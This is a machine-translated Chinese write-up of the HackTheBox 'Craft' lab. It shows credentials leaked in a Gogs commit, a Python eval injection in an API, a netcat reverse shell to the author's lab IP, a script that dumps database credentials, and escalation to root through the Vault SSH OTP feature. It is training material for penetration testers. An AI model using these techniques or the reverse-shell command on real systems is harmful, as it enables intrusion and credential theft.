# 黑客盒子——工艺

> 原文：<https://infosecwriteups.com/hackthebox-craft-bf892b02fb90?source=collection_archive---------0----------------------->


[https://www.hackthebox.eu/home/machines/profile/197](https://www.hackthebox.eu/home/machines/profile/197)

这是一篇关于我如何从 HacktheBox 解决 Craft 的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

Craft 是我最喜欢的机器之一。它要求您正确地枚举，并在一个公开的 Gogs 存储库中“搜刮”,在那里您可以看到以前提交的凭证。深入存储库会导致应用程序的源代码暴露，Python eval 可能会被滥用。这种初始访问会导致数据库连接脚本的修改，您可以编辑该脚本来转储凭据。以其中一个用户身份登录，然后您可以滥用名为 Vault 的 secrets manager 以 root 用户身份登录。

# 侦察:

我首先通过调用以下命令运行 nmap 扫描:

```
nmap -p- -oA nmap/allports-tcp 10.10.10.110
```

其结果是:



我又进行了一次扫描:

```
nmap -p 22,443,6022 -sV -sC -oA nmap/initial 10.10.10.110
```

其结果是:

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port6022-TCP:V=7.80%I=7%D=1/3%Time=5E0FFEAF%P=x86_64-pc-linux-gnu%r(NUL
SF:L,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

开放端口是 22、443 和 6022。扫描给出了 ssl-cert 的信息，最有趣的是 commonName 字段。

然后，我将它添加到我的/etc/hosts 文件中:

```
10.10.10.110    craft.htb
```

当我尝试访问 443 端口时:



我收到一个警告提示。这是因为 Mozilla 不知道机器使用的证书。这在 HacktheBox 机器中很常见。

## 其他工艺子域:

在 craft.htb 的登陆页面上，表明他们的存储库可以通过 REST API 访问。点击右上方的两个选项，它会把我们带到一个子域。



点击 API，它导致的网址 api.craft.htb/api/,，但它似乎无法加载该网站。



点击 API 旁边的 logo，导致 gogs.craft.htb，同样失败。这是因为一个叫做虚拟主机的概念。



然后，我将子域添加到我的/etc/hosts 中，这样它们就可以加载了。

```
10.10.10.110    craft.htb api.craft.htb gogs.craft.htb
```

## Craft API:

编辑完 hosts 文件后，我现在可以查看 2 个子域名了



## 工艺眼镜:



然后，我使用 Gobuster 在 gogs 子域上运行一个目录强制，因为 Gogs 是一个存储库:

```
gobuster dir -u [https://gogs.craft.htb](https://gogs.craft.htb) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-gogs.out -k
```

在等待 Gobuster 结果的时候，我玩了玩 Craft API。最有用的是 check、login 和 brew。其不同的操作和各自的请求 URL 是:

```
GET /auth/check
Checks validity of an authorization token
URL: https://api.craft.htb/api/auth/checkGET /auth/login
Create an authentication token provided valid username and password
URL: https://api.craft.htb/api/auth/loginPOST /brew/
Creates a new brew entry
URL: https://api.craft.htb/api/brew/
```

检查授权登录:



我使用了像 admin:admin 这样的基本凭证，但是不起作用，并得到如下的服务器响应:



最有可能的是，如果我有有效的凭证，它将生成一个授权令牌，我们可以使用/auth/check 来验证它。Checking /brew，它需要一个授权令牌才能发布数据。



转到 Gogs 子域的 Gobuster 结果，我可以看到有一个管理员叶:

```
/img (Status: 302)
/admin (Status: 302)
/assets (Status: 302)
/issues (Status: 302)
/plugins (Status: 302)
/css (Status: 302)
/avatars (Status: 302)
/js (Status: 302)
/explore (Status: 302)
/administrator (Status: 200)
/debug (Status: 200)
/craft (Status: 200)
/less (Status: 302)
```

访问者/管理员:



检查它的存储库，我可以看到 craft-api:



然后我检查了用户，发现 4。他们是行政官，埃巴赫曼，迪内什，吉尔福伊尔。最后三个是《硅谷》系列中的角色。



检查存储库，我可以看到许多源代码:



检查 dbtest.py，这是一个数据库连接测试脚本，其中包括一个 SQL 查询来检查它是否工作。还要注意登录的详细信息来自哪里。


检查 test.py，我可以从 API 子域中看到熟悉的 URL。这里突出的是 auth 参数和头 X-Craft-API-Token，它应该包含在内(使用有效的令牌),以便我与 API 的其他功能进行交互。



同时检查 auth.py，它显示了授权中需要的内容:



auth.py 如何工作的其他信息:



深入研究其他文件，brew.py 的代码中有一行很有趣。



该代码包括一个 eval 函数，它接受任何设置为 abv 的内容。还有一个评论是使用 sane ABV 值。查看这些问题，我看到了该评论的出处:



这是另一个提到头 X-Craft-API-Token 的地方。单击提交会导致以下结果:



似乎修复包括了之前发现的 eval 函数。我可以尝试滥用 eval 函数，但是它要求我们有凭证来获取令牌。检查提交历史记录:



检查 commit add 测试脚本(我也可以通过检查 test.py 的历史来看到这一点)，它公开了凭证:



```
dinesh:4aUh0A8PbVJxgd
```

提交清理测试删除了凭据。



使用这些凭证，我可以以 dinesh 的身份登录 Gogs:



使用相同的凭证，我可以对 API 进行身份验证:



我得到了一个有效的令牌:



然后，我检查 auth login 请求以查看其标题:



它使用 Basic 作为其授权方法，基本上是用户名和密码的 base64 编码:



然后，我在请求/auth/check 中包含了标题 X-Craft-Api-Token:



令牌有效。



因为我现在有了获得令牌的方法，所以我现在可以使用/api/brew。注意，前面提到过(根据脚本), abv 的值应该小于 1。我尝试发布 abv=1.1 的值:



不出所料。然后我发布了一个 0.2 的 abv 值:



由于一切都按预期运行，我现在尝试使用 eval 函数。请记住，brew.py 下有一行，它直接将 abv 的值传递给 eval:

```
# make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

我首先打开一个 python2 交互式 shell 来检查我如何误用它。我可以使用全局导入函数和它的方法。



看到它在本地工作，我现在在机器上试一试。我可以通过 ping 我的机器来验证代码的执行:



因为我可以从 craft.htb 获得 pings，所以我现在设置我的监听器来捕获一个反向 shell:



然后，我运行一个系统命令:

```
nc 10.10.14.72 9001 -e /bin/sh
```



看着我得到我的贝壳。注意，当我运行 id 时，我是 root。



我也试图得到一个合适的外壳，但没能这样做:



然后我运行 ifconfig 来检查我的 ip，验证它是否是 10.10.10.110。如果没有，那么最有可能的是我需要旋转，我可能在一个 docker 容器中。我还在/目录中找到了一个. dockerenv 文件。这证明我们在一个容器里。



我还运行了 ping 扫描，以防以后需要转换:

```
for ip in $(seq 1 254); do (ping -c 1 172.20.0.$ip | grep "bytes from" | cut -d ":" -f1 | cut -d " " -f4 &); done
```



然后，我决定回到应用程序的文件。为了检查存储库的文件，我使用 find 来查找 brew.py，其中很可能有一些文件在它附近(有些文件可能不在 Gogs 中),这些文件可能很有趣:



因为我在机器内部，所以我尝试运行 dbtest.py(这是我之前遇到的):



请注意，在 dbtest.py 中，有一个导入设置:



然后我在 craft_api 下搜索设置模块:



注意 settings.py 不在 Gogs:



读 settings.py，我找到 CRAFT_API_SECRET 和数据库详情。这是我运行 dbtest.py 时导入的内容。



因为我可以运行 python 脚本，所以我决定创建一个类似于 dbtest.py 的脚本，但是使用不同的 SQL 命令。我尝试使用 curl，但它没有安装在盒子里，幸运的是 wget 是可用的:



我将 SQL 改为“选择用户()；”为了验证这是否可行(我期待成为工艺用户)。注意，我还将 fetchone 方法编辑为 fetchall。



检查数据库文件夹下的 models.py，我可以看到 id、brewer、name、style、abv 是 Brew 下的列，id、username、password 是 User 下的列。


然后，我用 SQL 语句编辑 fakedbtest.py 来检查表名:

```
"SELECT table_name FROM information_schema.tables;"
```

这导致了许多表，但最重要的是 Brew 和 Users 表:



最后，我用 SQL 语句编辑 fakedbtest.py，列出用户表下的所有数据:

```
SELECT * FROM user;
```



我得到了用户的凭证:

```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

然后，我在端口 22 和 6022 上尝试 SSH 上的凭证，但是它们都无效。



然后，我使用该凭据登录 Gogs，该凭据对 ebachman 不起作用，但对 gilfoyle 起作用:



然后我发现了一个飞行器红外线储存库:



它包括文件。ssh、mysql、nginx、flask 和 vault。包括正在运行的服务的配置。您可以查看它们，以便了解基础架构是如何构建的，以及它最终是如何运行的。


在下面。ssh 文件夹中，存在一个 OpenSSH 私钥:



我可以使用这个密钥作为 gilfoyle 登录，使用数据库中的相同密码:



现在我可以读取 user.txt:

```
gilfoyle@craft:~$ cat user.txt 
**bbf4b...**
```

# 获取根目录:

在运行 ls -al 之后，一个名为。金库令牌脱颖而出。



检查其内容:

```
 f1783c8d-41c7-....
```

快速搜索也能找到哈希公司的金库。您可以在此阅读更多关于它及其常用命令的信息:

[](https://github.com/hashicorp/vault) [## 哈希公司/金库

### 请注意:我们非常重视 Vault 的安全性和用户的信任。如果你相信你已经找到了安全…

github.com](https://github.com/hashicorp/vault) [](https://www.vaultproject.io/docs/commands/) [## HashiCorp 的命令(CLI) - Vault

### 除了详细的 HTTP API 之外，Vault 还具有一个命令行界面，该界面包装了常见的功能和格式…

www.vaultproject.io](https://www.vaultproject.io/docs/commands/) 

我回到存储库并检查目录保险库下的文件:



这只是一个配置文件，SSL 文件保存在 vault 下。另一个文件更有趣。



请注意，ssh 的密码已启用。检查可能的选项:



我尝试了令牌命令及其子命令(功能和查找):



请注意，令牌的功能是 root。

我尝试登录命令，并提示我提供令牌。为其提供令牌，以 token_policies 作为 root 用户对我们进行身份验证:



因为存储库中提到了 SSH，所以我解释了 vault ssh 命令:



Otp 想起了 secrets.sh 文件中提到的内容:

```
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

尝试通过-mode=otp 使用 ssh，并以 root@localhost 身份登录:



我现在可以登录并读取 root.txt:

```
root@craft:~# cat root.txt
**831d6...**
```

注意，端口 6022 是 docker 的东西。



这就是我解决 Craft 的方法。解决这个盒子让我学到了很多东西。我希望更多的盒子是这样的。求解时似乎很直观。

我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)